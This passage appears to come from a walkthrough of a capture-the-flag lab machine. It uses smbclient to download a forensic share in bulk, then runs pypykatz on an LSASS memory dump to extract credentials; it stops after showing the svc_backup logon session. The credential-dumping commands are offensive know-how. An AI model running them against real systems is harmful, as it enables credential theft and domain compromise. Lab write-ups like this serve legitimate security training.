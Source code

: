 Let's start by recursively download the content of the **forensic** folder and see if we can find something. Note that we used `recurse` to enable directory recursion for the command `mget` and `prompt off` to make sure that all specified files (if any) will be transferred without asking if we want to download them.

```bash
$ smbclient \\\\10.129.140.139\\forensic -U audit2020
Enter WORKGROUP\audit2020's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020

                5102079 blocks of size 4096. 1687478 blocks available
smb: \> prompt off
smb: \> recurse
smb: \> mget *
getting file \commands_output\domain_admins.txt of size 528 as commands_output/domain_admins.txt (7.8 KiloBytes/sec) (average 7.8 KiloBytes/sec)
getting file \commands_output\domain_groups.txt of size 962 as commands_output/domain_groups.txt (13.8 KiloBytes/sec) (average 10.9 KiloBytes/sec)
getting file \commands_output\domain_users.txt of size 16454 as commands_output/domain_users.txt (229.5 KiloBytes/sec) (average 85.9 KiloBytes/sec)
getting file \commands_output\firewall_rules.txt of size 518202 as commands_output/firewall_rules.txt (3244.0 KiloBytes/sec) (average 1454.4 KiloBytes/sec)
getting file \commands_output\ipconfig.txt of size 1782 as commands_output/ipconfig.txt (23.5 KiloBytes/sec) (average 1210.4 KiloBytes/sec)
getting file \commands_output\netstat.txt of size 3842 as commands_output/netstat.txt (51.4 KiloBytes/sec) (average 1043.5 KiloBytes/sec)
getting file \commands_output\route.txt of size 3976 as commands_output/route.txt (58.0 KiloBytes/sec) (average 928.5 KiloBytes/sec)

...[snip]...

```

## LSASS Dump

Lots of files, but one seems to be very interesting: **lsass.zip**. Let's extract that one.

```bash
$ unzip lsass.zip          
Archive:  lsass.zip
  inflating: lsass.DMP               
```

Using [pypykatz](https://github.com/skelsec/pypykatz), a **mimikatz** implementation in Python, we can try to read the content of **lsass.DMP** and maybe grab some passwords or hashes.

```bash
$ pypykatz lsa minidump lsass.DMP
INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
```